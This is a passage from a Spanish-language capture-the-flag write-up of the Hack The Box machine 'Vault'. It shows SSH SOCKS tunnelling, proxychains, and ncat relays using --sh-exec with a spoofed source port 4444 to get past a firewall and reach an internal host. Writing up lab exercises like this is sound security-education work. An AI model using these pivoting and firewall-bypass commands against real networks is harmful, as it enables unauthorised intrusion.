 ``` text
Sep  2 15:10:34 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 3333 --sh-exec ncat 192.168.5.2 987 -p 53
root@DNS:/home/dave#
```

Con esto sabemos que una de las dos maquinas tiene la dirección 192.168.5.2, que conoce las credenciales de dave, y que el puerto TCP/4444 es relevante para las conexiones.

Las ultimas 3 lineas indican que es posible escanear la 192.168.5.2, pero que probablemente este filtrado el puerto de origen.
La penúltima y antepenúltima, que el puerto 987 esta abierto en 192.168.5.2, pero hay que redirigirlo para poder establecer una conexión.

Entonces tenemos un diagrama como el siguiente:

{{<mermaid align="left">}}
sequenceDiagram
    participant xbytemx
    participant ubuntu
    participant DNS
    participant Firewall
    participant Vault

    xbytemx->ubuntu: ssh -f -N -D 9050 dave@10.10.10.109
    Note right of ubuntu: Establecemos el túnel para proxear
    xbytemx->DNS: proxychains ssh dave@192.168.122.4
    Note right of DNS: Nos conectamos por ssh sobre el túnel a DNS
    DNS-->>Vault: PERMITIDO src:TCP/53,TCP/4444 dst:TCP/987
    Vault-->>DNS: PERMITIDO src:TCP/53 dst:ALL?

{{</mermaid>}}

# Connecting to Vault

Ahora que hemos comprendido mejor como podríamos bypasear las reglas del firewall, podemos construir un listener del puerto 987 de Vault:

``` text
xbytemx@laptop:~/htb/vault$ proxychains ssh dave@192.168.122.4 "ncat -l 3001 --sh-exec \"ncat 192.168.5.2 987 --source-port=4444\""
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:9050-<><>-192.168.122.4:22-<><>-OK
The authenticity of host '192.168.122.4 (192.168.122.4)' can't be established.
ECDSA key fingerprint is SHA256:pV1weQff3mDVKDCfervdnstlBaTvDBnCu2eQfUegT3w.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.122.4' (ECDSA) to the list of known hosts.
dave@192.168.122.4's password:

```

Lo que hace este comando es usar el proxychain para lanzar un ssh hacia DNS, el cual lanza el comando ncat como listener en el puerto 3001, que a su vez lanza el comando ncat hacia Vault en el puerto 987, usando el puerto origen 4444 que ya vimos que esta permitido.
